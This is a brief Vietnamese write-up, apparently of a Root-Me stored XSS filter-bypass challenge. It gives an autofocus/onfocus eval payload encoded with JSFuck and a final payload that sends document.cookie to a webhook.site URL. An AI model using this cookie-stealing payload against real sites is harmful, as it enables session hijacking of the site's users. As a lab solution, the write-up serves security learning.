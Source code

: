 Dù đã thử nhiều loại encode và các loại tag khác nhau nhưng vẫn không bypass được cái filter này 😢

Tham khảo:

 https://github.com/iL3sor/rootme-writeup/blob/main/XSS%20-%20Stored%20-%20filter%20bypass%20%5B80%20Points%5D.md

Payload: `<button autofocus onfocus=(eval)("jsfuck encode")></button>`

Giải thích: `onfocus` là 1 event handler và được `autofocus` nên sẽ tự động thực hiện `eval`

[https://jsfuck.com/](https://jsfuck.com/)

[https://github.com/aemkei/jsfuck/blob/main/jsfuck.js](https://github.com/aemkei/jsfuck/blob/main/jsfuck.js)

Jsfuck là có syntax khá phức tạp nhưng nó hoạt động

Thử alert bằng payload trên

![image.png](Images/image%2017.png)

alert thành công

![image.png](Images/image%2018.png)

Bây giờ chỉ cần encode payload: `document.location="[https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=)".concat(document.cookie)` sang jsfuck và truyền vào `eval` là đã gửi được cookie
